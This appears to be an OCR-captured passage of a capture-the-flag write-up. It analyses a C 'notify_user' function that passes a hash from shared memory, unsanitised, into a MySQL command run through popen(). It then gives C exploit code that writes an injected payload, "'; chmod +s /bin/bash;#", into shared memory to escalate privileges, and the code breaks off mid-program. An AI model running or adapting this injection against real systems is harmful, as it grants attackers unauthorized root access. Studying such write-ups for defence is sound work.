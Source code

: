 → 

The `notify_user` function retrieves a leaked password hash from shared memory, queries a database (`teampass_users`) to find the associated email, and prints the email if found.

Key Points:

1. **Shared Memory Access**:
    - It attaches to a shared memory segment using `shmget(shm_key, 0666)`.
    - Searches for `"Leaked hash detected"` and extracts the hash after `>`.
2. **SQL Query Execution**:
    - It dynamically builds a MySQL command using `snprintf()`.
    - The query is executed via `popen()`, which is **unsafe**.

**Security Issue – Arbitrary Code Execution**:

- Since `trimmed_hash` is inserted **without sanitization**, an attacker could manipulate it to inject SQL or shell commands, leading to **command execution** on the system.

---

### `Exploit code :`

```c
#include <stdio.h>      
#include <stdlib.h>     // Standard library functions (e.g., exit, rand)
#include <sys/ipc.h>    // System V IPC key definitions
#include <sys/shm.h>    // Shared memory functions
#include <time.h>       // Time functions for random seeding
#include <errno.h>      // Error handling
#include <string.h>     // String handling functions

#define SHM_SIZE 0x400   // Define shared memory size (1024 bytes)
#define SHM_MODE 0x3B6   // Permissions: 0666 in octal

int main(void) {
    // Seed the random number generator using the current time.
    time_t current_time = time(NULL);
    srand((unsigned int)current_time);

    // Generate a random number and apply modulo to limit the key range.
    int random_value = rand();
    key_t key = random_value % 0xfffff; // Generate a key for shared memory

    // Print the generated key in hexadecimal format.
    printf("Generated key: 0x%X\n", key);

    // Create or get a shared memory segment with the generated key.
    int shmid = shmget(key, SHM_SIZE, IPC_CREAT | SHM_MODE);
    if (shmid == -1) {  // Check if shmget() failed
        perror("shmget");
        exit(EXIT_FAILURE);
    }

    // Attach to the shared memory segment and get a pointer to it.
    char *shmaddr = (char *)shmat(shmid, NULL, 0);
    if (shmaddr == (char *)-1) {  // Check if shmat() failed
        perror("shmat");
        exit(EXIT_FAILURE);
    }

    // Define the payload string to write into shared memory.
    const char *payload = "Leaked hash detected at Sat Feb 22 20:18:50 2025 > '; chmod +s /bin/bash;#";

    // Write the payload to the shared memory segment.
```